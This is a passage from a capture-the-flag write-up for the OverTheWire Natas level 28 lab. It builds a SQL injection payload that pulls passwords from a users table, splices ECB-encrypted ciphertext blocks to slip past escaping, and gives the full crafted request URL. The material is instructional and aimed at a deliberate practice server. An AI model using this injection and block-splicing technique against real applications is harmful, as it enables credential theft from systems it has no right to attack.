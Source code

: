 ![work](./work.jpg)

Great! It works!

Based on the previous challenges we can assume, that we need to extract `password` from the table `users`. Let's build our new payload:

```py
decoded_query = send_post_request("aaaaaaaaa' union select password from users -- ")
print(decoded_query)
```

Output:

```
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPIR27gK4CQl3Jcmv/0YAxYO+J3Y2+wVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kZy+exMySI3M79Oa4mUCUQ/p36O0aq+C10FxP/mrBQjq0eOsaH+JhosbBUGEQmz/to=
```

Also we need to remove block of bad value `aaaaaaaaa'` and insert block of 10 spaces `ItlMM3qTizkRB5P2zYxJsb`:

```
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb+J3Y2+wVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kZy+exMySI3M79Oa4mUCUQ/p36O0aq+C10FxP/mrBQjq0eOsaH+JhosbBUGEQmz/to=
```

Again URL-encode it and send to server:

[http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb%2BJ3Y2%2BwVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kZy%2BexMySI3M79Oa4mUCUQ%2Fp36O0aq%2BC10FxP%2FmrBQjq0eOsaH%2BJhosbBUGEQmz%2Fto%3D](http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb%2BJ3Y2%2BwVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kZy%2BexMySI3M79Oa4mUCUQ%2Fp36O0aq%2BC10FxP%2FmrBQjq0eOsaH%2BJhosbBUGEQmz%2Fto%3D)
